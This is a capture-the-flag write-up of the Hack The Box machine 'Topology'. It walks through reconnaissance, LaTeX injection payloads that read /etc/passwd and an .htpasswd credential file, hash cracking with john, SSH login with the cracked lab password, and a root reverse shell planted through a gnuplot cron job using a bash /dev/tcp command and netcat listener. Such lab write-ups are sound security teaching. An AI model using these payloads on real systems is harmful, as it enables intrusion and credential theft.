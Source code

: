 ```yaml
---
title: Topology
tags: HTB Latex gnuplot linux  
article_header:
  type: cover
published: true
author: krill
---
```



![](/images/HTB/topology/Topology.png)
<!--more-->

## Reconnaissance 
```
nmap -sCV 10.10.11.217 -T4 -oN map.txt  -Pn 

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-ls: Volume /
|   maxfiles limit reached (10)
| SIZE  TIME              FILENAME
| -     2023-01-17 12:26  demo/
[[about]]| 1.0K  2023-01-17 12:26  demo/fraction.png
| 1.1K  2023-01-17 12:26  demo/greek.png
| 1.1K  2023-01-17 12:26  demo/sqrt.png
| 1.0K  2023-01-17 12:26  demo/summ.png
| 3.8K  2023-01-17 12:26  equation.php
| 662   2023-01-17 12:26  equationtest.aux
| 17K   2023-01-17 12:26  equationtest.log
| 0     2023-01-17 12:26  equationtest.out
| 28K   2023-01-17 12:26  equationtest.pdf
|_
|_http-title: Index of /
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


## Service Enumeration
```
[+] Port 22 
	Version: OpenSSH 8.2p1 
	Public-Exploit: None

	- I need some form of credentials to authenticate to this service which I don't have. 

[+] Port 80 
	Version: Apache httpd 2.4.41
	Public-Exploit: None 
	
	- Visiting the wepage
```
![](/images/HTB/topology/page.png)
```
	- Viewing the page source, I discovered a subdomain and added it to my `/etc/hosts` file. 
```
![](/images/HTB/topology/source.png)
```
		> echo '10.10.11.217  latex.topology.htb' | sudo tee -a /etc/hosts 
	
	[+] Subdomain Bruteforce
		 - Using ffuf to bruteforce for other virtual hosts
			 > ffuf -u http://topology.htb -w /words/big.txt  -t 30 -H 'HOST: FUZZ.topology.htb' -c -fs 6767
		
		- Discovered two other subdomains
```
![](/images/HTB/topology/result.png)
```
		- Add them to your /etc/hosts file 
		
		
	[+] latex.topology.htb 
		- Visiting http://latex.topology.htb/equation.php, you find a LaTeX Equation Generator.
```
![](/images/HTB/topology/lat.png)
```
		- Checking for related vulnerabilities and exploits, I found a cheatsheet on hacktricks that provided payloads for LaTeX Injection.

		- Using the following payload, I was able to read the /etc/passwd file;
			> $\lstinputlisting{/etc/passwd}$
```
![](images/HTB/topology/passwd.png)
```
		- From the /etc/passwd file, I discoverd a user `vdaisley`

	[+] dev.topology.hb
		- Visiting dev.topology.htb shows an http basic authentication.
```
![](/images/HTB/topology/basic.png)
```
		- Since this is http basic authentication, the credentials should be stored somewhere on the web server in a file called .htpasswd
		
		- Using the vulnerability discovered on the latex generator, we should be able to read that file. The question is, where exactly is this file. 

		- Remember the webserver is running apache, so we can check the `sites-enabled/000-default.conf` configuration file to get more information about the subdomains. 
			> $\lstinputlisting{/etc/apache2/sites-enabled/000-default.conf}$
		
		- This displays information about the virtual hosts on the web-server
```
![](/images/HTB/topology/devroot.png)
```
		- The document root for dev is `/var/www/dev`, that means the credential to the http basic authentication should be stored in `/var/www/dev/.htpasswd`
			>  $\lstinputlisting{/var/www/dev/.htpasswd}$
```
![](/images/HTB/topology/creds.png)
```
		- You can use any online tool like google-image, to extract the text from the image. 
		  
	[+] Password Attack
		- Using john-the-ripper, you can crack this hash to get the clear-text password. 
			> john --wordlist=/usr/share/wordlists/rockyou.txt hash
```
![](/images/HTB/topology/john.png)


## Initial Access 
```
	[+] SSH login 
		- Reusing the credentials, we gain access into the machine using ssh
			> sshpass -p calculus20 ssh vdaisley@topology.htb 
```


## Post Exploitation
```
[+] Privilege Escalation 

	[+] Automated tasks
		- Using pspy, which is a linux which allows you to see commands run by other users, cron jobs, etc. as they execute.  
```
![](/images/HTB/topology/pspy.png)
```
		- I  noticed the root user was using the find command to search for all .plt files in the /opt/gnuplot and running the gnuplot binary on each discoverd file.  
		- gnuplot is a command-line and GUI program that can generate two- and three-dimentional plots of functions, data, and data fits.


	[+] gnuplot Command Execution
		
		Since the gnuplot command is run by the root user, we should be able to get a reverse-shell as the root user.
		 
		- The script file of gnuplot can be used to execute system commands.
		  
		- Checking the permission of the /opt/gnuplot directory, we see that we have permissions to write into this directory 
```
![](/images/HTB/topology/gnuplot.png)
```		  
		- Create a new script.plt file in this directory with the following code. 
			> system " bash -c 'bash -i >& /dev/tcp/10.10.16.59/443 0>&1'"
			
		- Prepare a netcat listener to catch the reverse-shell connection
			> nc -lvnp 443
		
		- When the gnuplot binary is run again, you should get a root shell. 
```

_Sayonara~🍻_


[Hacktricks_link](https://book-hacktricks-xyz.translate.goog/pentesting-web/formula-doc-latex-injection?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en-GB#latex-injection)
[gnuplot_command_execution](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/)
